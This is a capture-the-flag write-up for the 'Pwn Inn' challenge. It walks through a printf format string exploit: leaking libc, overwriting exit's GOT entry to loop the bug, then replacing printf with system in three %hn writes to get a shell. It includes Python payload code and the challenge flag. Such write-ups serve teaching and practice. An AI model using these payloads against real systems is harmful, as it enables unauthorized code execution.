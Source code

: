 # The pwn inn
#### Description
As we know that crypto is a hot potato right now, we wanted to welcome you to a safe place, The Pwn Inn. We've had many famous faces stay in our Inn, with gets() and printf() rating us 5 stars. We've decided to start making an app, and wanted you guys to be our beta testers! Welcome!
#### Author
Tango
#### Points and solves
477 points, 58 solves.

In this challenge we are given a binary which calls a function ```vuln```
```c
void vuln(void)
{
  long in_FS_OFFSET;
  char local_118 [264];
  undefined8 local_10;
  
  local_10 = *(undefined8 *)(in_FS_OFFSET + 0x28);
  fgets(local_118,0x100,stdin);
  printf("Welcome ");
  printf(local_118);
  exit(1);
}
```

We simply have a classic printf format string attack.
We are not given a libc version, so we have to leak libc version aswell.


## 1. Patching ```exit(1)```
We'll, main doesn't return, instead it calls ```exit(1)```, and in order to be able to leak, and ret2libc we need to have atleast two rounds of format string attack.
So we have to patch ```exit(1)``` to something else, in this case it is easy and convenient to patch it with ```vuln```.
This way, every time vuln finishes, it calls itself and we have endless rounds of format string attacks that we can perform.

```python
p.sendlineafter("? \n", b"%45$08p%46$08p%4199080d%10$nAAAA" + p64(elf.sym.got["exit"]) + 8*b"B")
```

Let's breakdown the payload step by step.
#### a. ```%45$08p%46$08p```
Simply translating the format string:
"Print the 45th argument to printf as a pointer padded to size of 8 chars."
The same follows for the 46th argument.
Now, we ask ourselves what does the 45th and 46th arguments hold? Two halves of the return address of main.
Main returns to __libc_start_main, and by leaking the return address of the main function we can narrow down the libc version of the remote to a few libc versions.

### b. ```%4199080d```
Yo ```hex(4199080) = 4012A8```, This means that printf will print its' next argument as a decimal, padded by ```4199080``` digits.
Notice that the ```vuln``` is at: ```0x4012c4```.
We already printed 16 characters by leaking the 45th and 46th arguments which totals to ```0x4012c``` printed characters.
This allows us to easily overwrite ```exit``` to ```vuln``` using the next step.

### c. ```%10$nAAAA + p64(elf.sym.got["exit"]) + 8*b"B"```
Remind ourselves of the ```%n``` format modifier of printf, which writes the total characters written so far to the value to the pointed by the next argument of printf.
Or if we specifiy ```%idx$n```, it writes that value to the value pointed by the ```idx```th argument to printf.
So, with a bit of debugging, it's possible to align the GOT entry for ```exit``` to be the ```10th``` argument to printf. (Using the ```A```s to push the address around the stack, and ```B```s simply for visibility.)
And by doing that we write ```vuln = 0x4012c4``` to the GOT of ```exit```.

## 2. Getting shell
So, now, every time vuln exits, it actually calls itself and after sending the first paylod we enter a second round of format string attack.
Moreover, we leaked a libc address from ```__libc_start_main``` and we can narrow down the libc version and calculate the offset of ```system```.
Now the plan is, to overwrite the GOT entry of  ```printf``` to ```system```.
However, the problem is that the address of system is so large, that in if we want to print that many characters the challenge will time us out.
We must split and write in three small batches. (Also possible in two batches)

Lets visualize the address of ```system```.
For example lets say that ```system``` is at ```0xAAAABBBBCCCCDDDD``` in our case ```0xAAAA = 0x0000```.
So, let's assume that ```BBBB``` > ```CCCC``` > ```DDDD```. 
We can write ```0xDDDD``` characters using printf, and immediatly after that overwrite the first 2 bytes of ```GOT.printf``` with ```DDDD```
After that, we can print ```0xCCCC-0xDDDD``` bytes, which totals to ```0xCCCC``` characters printed overall and overwrite bytes 3 and 4 of ```GOT.printf```.
Similiarly we can continue to ```BBBB```.
However that assumption doesnt always hold, because libc addresses are randomized, so we have to get lucky for our assumption to hold.
But sorting ```[BBBB, CCCC, DDDD]``` and constructing the format string from the lowest entry to the highest will make the attack successfull every time.

The final format string attack:
```python
l = [third1, third2, third3]
l.sort()
payload = b"%" + ("%05d"%l[0]).encode("ascii") + b"d%11$hn" +\
	b"%" + ("%05d"%(l[1]-l[0])).encode("ascii") + b"d%12$hn" +\
	b"%" + ("%05d"%(l[2]-(l[1]))).encode("ascii") + b"d%13$hn" +1*b"\x00"
for i in range(0,3):
    if l[i] == third1:
        payload += p64(elf.sym.got["printf"]+4)
    if l[i] == third2:
        payload += p64(elf.sym.got["printf"]+2)
    if l[i] == third3:
        payload += p64(elf.sym.got["printf"])
```

Seems complex, but if you have been following the explanation it's straight forward.
```l``` is the list ```[BBBB, CCCC, DDDD]```, we sort it.
Now we can construct the payload and print 3 batches of characters in order from lowest to highest.
Each batch will print the correct amount of characters and afterwards will perform ```d%11$hn``` (or ```%12$n``` or ```%13$n```). Which will write a short to the appropriate address. (because we use ```hn``` instead of ```n```).

Last part of the payload that is constructed in the for-loop simply matches the correct offset of GOT.printf address with the right batch.
For example, if assume for the sake of explanation ```third1 < third2 < third3```. 
The first batch of the payload will print ```third1``` characters and will write the result to the 11th argument. Therefore the 11th argument must correspond to the offset that is appropriate for writing the first third.
The same follows for ```third2``` and ```third3```.
In parallel to the example: ```0xAAAABBBBCCCCDDDD```, ```AAAA``` belongs in ```GOT.printf + 6```, ```BBBB```` belongs in ```GOT.printf + 4``` and so on.

We send this line, and then ```exit``` returns us to ```vuln```, write ```/bin/sh``` and this parameter will be passed to printf which is now actually ```system``` :)


### How to narrow libc version
A very nice website at [libc database search](https://libc.nullbyte.cat/) will narrow down the libc version based on known offsets.

#### Flag
```flag{GOTt4_b3_OVERWRITEing_th0s3_symb0ls_742837423}```
